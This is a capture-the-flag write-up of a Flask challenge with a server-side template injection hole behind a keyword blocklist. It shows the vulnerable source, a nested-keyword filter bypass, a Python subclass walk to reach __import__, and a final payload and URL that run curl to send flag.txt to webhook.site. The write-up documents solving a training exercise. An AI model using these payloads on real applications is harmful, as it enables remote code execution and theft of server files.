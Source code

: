 ```yaml
---
ai_date: '2025-04-27 05:10:37'
ai_summary: Bypassed server-side filtering using template string manipulation and
  __import__ to execute system command
ai_tags:
- xss
- template-string
- exploitation
created: 2021-12-21T23:50
updated: 2024-06-21T21:30
---
```


## Super Secure Trustable Implementation

> I've added a bunch of filters, so my app must be really secure now.
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4209/

The source, `main.py` is included hence we should take a look.

```python
import secrets
from flask import Flask, render_template_string, request

app = Flask(__name__)


@app.route("/")
def index():
    name = request.args.get("name", default="World")
    # Evil hacker cannot get past now!
    blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
    for bad in blocklist:
        name = name.replace(bad, "")
    return render_template_string(f"<h1> Hello, {name}")
```

Since the server uses `render_template_string` its vulunerable to `{{}}` template string attacks.

If we use `{{ 'Hello'+' '+'World' }}` for name, it would give us `Hello World` as the string inside is ran as code.

### Blocklist Bypass

However as we can see, there is an blocklist, and it includes `{{` and `}}`.

To bypass this filter we can simply insert blocklisted words inside of blocklisted words. For example

`{flag{}flag}` will not trigger when checking for `{{` and `}}`, but will have `flag` removed when checking for flag, and would result in `{{}}` as the end output.

Making use of this, we can construct our payloads with the help of a little script.

> I had troubles with reading the file so I decidede to just send the file content via curl
>
> webhook.site is a easy to use site for sending data back

```python
bypass = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read"]
bypass.reverse()
payload = ''
for toby in bypass:
    payload = payload.replace(toby, toby[0] + "read" + toby[1:])
print(payload)
name = payload
blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
for bad in blocklist:
    name = name.replace(bad, "")
print(f"<h1> Hello, {name}")
```

### Bypassing certain unknown filters

If one simply use `__import__`, one will soon realise that it does not exist, this could have been done by deleting built-ins from the python run time.

We can restore the built-ins via `reload(__builtins__)`, however it is obviously, also deleted.

We need to find `__import__` somehow.

With some experimenting, we can find that

```python
>>> ().__class__.__bases__
(<type 'object'>,)
```

The tuple inherits directly from `object`, hence we can find the list of types (extends object) by sending the payload

##### `{{().__class__.__bases__[0].__subclasses__()}}`

```
Hello, [<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>... <class 'flask.blueprints.BlueprintSetupState'>]
```

Much of the output is useless, `_frozen_importlib_external.FileLoader` looks a bit suspicious though. (it is at position 118)

##### `{{().__class__.__bases__[0].__subclasses__()[118]}}`

```
Hello, <class '_frozen_importlib_external.FileLoader'>
```

Just verifying that the class is the `FileLoader`, now lets see what builtins this FileLoader has

##### `{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"]}}`

```
Hello, {'__name__': 'builtins' ... '__import__': <built-in function __import__>,  ...help, or help(object) for help about object.}
```

**Hooray!** We found `__import__`, now we just have to combine the payload into

```python
{{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flflag.txtag.txt https://webhook.site")}}
```

`flag.txt` is manually bypassed since it contains `flag`

### Transforming the payload

```
{read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site")}read}

<h1> Hello, {{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flag.txt https://webhook.site")}}
```

The first line is our payload, and after running the same blocklist operations as the server, the resulting string looks ok.

### Sending the payload

`http://35.240.143.82:4209/?name={read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site")}read}`

And after checking webhook.site

```flag
flag{server_side_rendering_is_fun_but_dangerous_sometimes}
```

Flag obtained